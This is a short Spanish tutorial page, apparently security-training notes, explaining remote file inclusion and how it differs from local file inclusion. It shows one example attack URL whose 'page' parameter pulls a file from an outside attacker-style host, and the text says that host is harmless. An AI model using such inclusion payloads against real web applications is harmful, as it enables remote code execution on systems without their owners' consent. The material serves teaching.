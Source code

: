 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion (RFI)

\
Las vulnerabilidades de inclusión remota de archivos (RFI) son similares a las vulnerabilidades LFI. Sin embargo, cuando un atacante explota una vulnerabilidad RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema (el sistema atacante).

La muestra un ejemplo de cómo explotar una vulnerabilidad de inclusión remota de archivos.

_Explotación de una vulnerabilidad de inclusión remota de archivos_

El atacante ingresa la siguiente URL para realizar el ataque en la Figura 6-23:

```
http://192.168.78.8:66/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
```

En este ejemplo, es probable que el sitio web del atacante (http://malicious.h4cker.org/malware.html) albergue malware o scripts maliciosos que pueden ejecutarse cuando la víctima visita ese sitio.

**NOTA** La URL [_http://malicious.h4cker.org/malware.html_](http://malicious.h4cker.org/malware.html) es una URL real, pero no es un sitio malicioso. Si se conecta a él en un navegador web, verá un mensaje similar al de la Figura 6-23.
